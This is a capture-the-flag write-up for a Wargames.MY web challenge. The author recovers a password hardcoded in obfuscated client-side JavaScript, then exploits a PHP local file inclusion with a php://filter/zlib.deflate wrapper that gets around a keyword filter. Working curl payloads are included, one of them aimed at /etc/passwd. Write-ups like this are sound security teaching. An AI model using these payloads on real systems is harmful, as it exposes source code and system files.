

# Warmup - Web [15 Solves]

## Description

> Let's warm up! <http://warmup.wargames.my>

No attachment.

## Flag

wgmy{1ca200caa85d3a8dcec7d660e7361f79}

## TL;DR

- Password verification is on the client side, and the password is got from obfuscated JavaScript code.
- By LFI (Local File Inclusion), flag_for_warmup.php containing the flag is got.

## Solution

Opening given URL, it showed a password input form.


As a test, entering `test`, an error was output indicating that it was an incorrect password.


Inspecting the HTML code using `view-source:`, I found that a JavaScript file named `/static/script.min.js` is being loaded.


Opening this JavaScript file in the Sources tab in DevTools, it revealed obfuscated JavaScript code.


I suspected that password verification is on the client side, so I set breakpoints at various locations and repeated entering the password.
When setting a breakpoint in the part of if condition, I found that a URL path and what seemed like a password string were defined in a local variable.



- `eRLSQ: "/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php"`
- `qXezE: "this_password_is_so_weak_i_can_crack_in_1_sec!"`

Entering the password `this_password_is_so_weak_i_can_crack_in_1_sec!`, a message was displayed indicating that it is the correct password.


The message `The flag is in the comments` was displayed.
Opening the Network tab in DevTools and looking at the requests made when entering the password, a request to the URL path starting with `/api/...` was found.
The response to that request contained the message `<!-- well, maybe not this comment -->`, which is an HTML comment.


The URL of this request was `http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php`.
It executes a PHP file named `4aa22934982f984b8a0438b701e8dec8.php`, with the query parameter `x` set to `flag_for_warmup.php`.
I suspected that `flag_for_warmup.php` is included using the `include()` function, and the flag is in a PHP comment rather than HTML comment.
I considered to get the source code of `flag_for_warmup.php`.

By using PHP's `php://filter`, it is possible to get the PHP code without rendering HTML after it is interpreted as PHP.
I decided to use this method, and it seems feasible with some form of encoding like Base64.
I referred to examples of payloads in [File Inclusion - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/File%20Inclusion/#wrapper-phpfilter).

```console
$ curl -k -s https://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=php://filter/convert.base64-encode/resource=/etc/passwd
did you just mention "convert"?? i'm quitting now
```

I tried Base64 encoding, but due to filtering, the string `convert` could not be used.
Similarly, terms like `input`, `string`, `data`, and `proc` were also restricted.

However, I was able to use `zlib.deflate`.
When I hex-dumped it with the `hd` command, I confirmed that the response was coming back correctly.

```console
$ curl -s -k -o - https://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=php://filter/zlib.deflate/resource=flag_for_warmup.php | hd
00000000  35 cc db 0a 82 40 10 80  e1 7b 9f 62 ba d2 a0 c5  |5....@...{.b....|
00000010  35 c9 03 2d f6 22 41 4c  eb e8 0a 7b 90 71 43 24  |5..-."AL...{.qC$|
00000020  7a f7 8a e8 f6 e3 e7 57  97 d9 cc 49 42 cc 81 6f  |z......W...IB..o|
00000030  4c 73 e0 38 f9 31 93 fb  f3 07 b5 09 59 6a 88 e9  |Ls.8.1......Yj..|
00000040  9a 2e b0 85 07 c3 60 71  04 b5 38 b4 b6 9b 3c e8  |......`q..8...<.|
00000050  e0 1c f9 a8 f2 9f 80 da  09 01 2b 59 7b 00 87 db  |..........+Y{...|
00000060  9d c0 87 08 d1 4c cb bf  04 21 ba f4 fb ce 73 58  |.....L...!....sX|
00000070  47 b7 3d 0b 8d 47 29 35  62 73 ea 4b 6c 7a 4d ba  |G.=..G)5bs.KlzM.|
00000080  ee ab 4a 52 5d 56 c5 50  b7 af e4 0d              |..JR]V.P....|
0000008c
```

To decode the received response, I referred to [this Stack Overflow post](https://stackoverflow.com/a/59982693/10819876).

```console
$ curl -s -k -o - https://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=php://filter/zlib.deflate/resource=flag_for_warmup.php | php -r 'echo gzinflate(file_get_contents("php://stdin"));'
<?php

error_reporting(0);

echo('here\'s your flag <small>in comment</small> <!-- well, maybe not this comment -->');

// wgmy{1ca200caa85d3a8dcec7d660e7361f79}
```
